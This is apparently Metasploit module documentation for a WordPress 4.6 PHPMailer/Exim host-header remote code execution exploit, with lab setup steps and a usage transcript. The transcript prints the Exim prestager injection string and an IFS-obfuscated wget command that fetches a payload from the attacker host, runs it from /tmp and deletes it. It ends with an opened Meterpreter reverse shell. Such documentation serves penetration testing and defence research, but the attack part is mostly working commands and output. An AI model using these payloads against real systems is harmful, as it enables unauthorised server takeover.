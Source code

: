## Intro

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command. You do not need to install
PHPMailer, as it is included as part of the WordPress install.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.135
rhost => 192.168.33.135
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1 
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.6 installed at http://192.168.33.135/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/gdydmrcr
[*] Local IP: http://192.168.1.7:8080/gdydmrcr
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${reduce{get /gdydmrcr http/1.0}{${run{/bin/echo}}}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{$item$value$value}}}}}}
[+] Sending wget${IFS}-qO${IFS}/tmp/kmbrvask${IFS}http://192.168.33.1:8080/gdydmrcr;chmod${IFS}+x${IFS}/tmp/kmbrvask;/tmp/kmbrvask;rm${IFS}-f${IFS}/tmp/kmbrvask
[+] Sending payload linux/x64/meterpreter_reverse_https
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: kavaks2e) Redirecting stageless connection from /z1Br4gDetykqSyxJc1FJDwUxRwi0zlaU3n8a4qzqQL0car3RRVt6pALb6kN5pFHhGyIHhgaEWcUYZqRQooYIhJarLi5v0 with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: kavaks2e) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.135:35848) at 2017-05-15 21:26:17 -0500
[*] Sending /bin/rm -f /tmp/kmbrvask
[*] Server stopped.

meterpreter > 
```
